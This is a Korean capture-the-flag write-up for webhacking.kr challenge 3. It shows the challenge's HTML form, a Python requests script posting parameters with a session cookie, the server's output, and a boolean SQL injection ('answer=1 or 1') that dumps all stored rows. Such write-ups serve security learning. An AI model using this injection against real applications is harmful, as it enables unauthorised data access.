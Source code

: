 ================================================================================================================
[webhacking.kr] 03
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="answer=1&id=1",arrowhead="normal"];
        step3 -> step2[label="<p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr>",arrowhead="normal"];
        step4 -> step5[label="answer=1 or 1&id=1",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

MISC
================================================================================================================

- 해당 페이지는 퍼즐 형식으로 되어 있는데 정답은 아래와 같음

.. image:: ../../_images/web-03_1.png
        :align: center


- 정답 입력후 gogo 버튼을 클릭하면 다음과 같은 화면이 출력

.. image:: ../../_images/web-03_2.png
        :align: center


|

취약점 존재 여부 확인
================================================================================================================

- POST 페이지 취약점
- POST 파라미터: answer, id

.. code-block:: html

    <html>
    <head>
    <title>Challenge 3</title>
    </head>
    <body>
    <center>Puzzle</center>
    <p>
    <hr>

    <form name=kk method=get action=index.php>

    </form><form method=post action=index.php>
    <input type=hidden name=answer value=1010100000011100101011111>
    name : <input type=text name=id maxlength=10 size=10>
    <input type=submit value='write'>

|

POST Parameter
================================================================================================================

- 임의의 값을 입력하여 출력되는 메시지 확인

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-03/index.php?_1=1&_2=0&_3=1&_4=0&_5=1&_6=0&_7=0&_8=0&_9=0&_10=0&_11=0&_12=1&_13=1&_14=1&_15=0&_16=0&_17=1&_18=0&_19=1&_20=0&_21=1&_22=1&_23=1&_24=1&_25=1&_answer=1010100000011100101011111"
    cookies = {
        "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
    }
    data = {
        "answer": "1",
        "id":"1"
    }
    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content

- 출력 결과를 보면 answer가 같은 값을 입력한 상태에서 id값을 다르게 입력하면 누적형식으로 쌓인 데이터를 확인할 수 있다. 

.. code-block:: html

    <html>
    <head>
    <title>Challenge 3</title>
    </head>
    <body>
    <center>Puzzle</center>
    <p>
    <hr>

    <form name=kk method=get action=index.php>

    <p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 33<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 33<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 33<br>answer : 1||1<br>ip : 125.x.x.x<hr>

|



- SQL 쿼리문으로 표현하면 다음과 같다.

.. code-block:: sql
    
    select id, answer, ip from $table_name where ip= $_SERVER[REMOTE_ADDR] and answer = $_POST[answer]

|


$_POST[answer]에 참인 값을 or 형식으로 넣어주면 모든 answer 출력 결과를 얻을 수 있다.

.. code-block:: sql
    
    select id, answer, ip from $table_name where ip= $_SERVER[REMOTE_ADDR] and answer = 1 or 1


